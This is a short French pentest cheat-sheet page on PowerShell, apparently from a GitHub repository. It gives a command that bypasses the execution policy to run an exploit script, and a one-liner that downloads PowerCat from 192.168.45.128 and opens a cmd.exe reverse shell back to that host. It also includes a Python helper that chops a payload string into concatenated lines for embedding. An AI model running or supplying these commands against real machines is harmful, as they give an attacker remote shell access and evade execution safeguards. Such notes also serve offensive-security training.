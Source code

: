 PowerShell est un langage de programmation orienté objet exécuté à partir du Dynamic Language Runtime (DLR) dans  `.NET`

Contournement des arguments

```sh
powershell -ex bypass -File exploit.ps1
```


```sh
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.128:8080/PowerCat.ps1');powercat -c 192.168.45.128 -p 4443 -e cmd.exe"
```

---
Fichier `split.py`

```python
str = "powershell ..."
n = 50
for i in range(0, len(str), 50):
	print "payload = payload + " + '"' + str[i:i+n] + '"'

# python split.py | xclip -selection clipboard
```

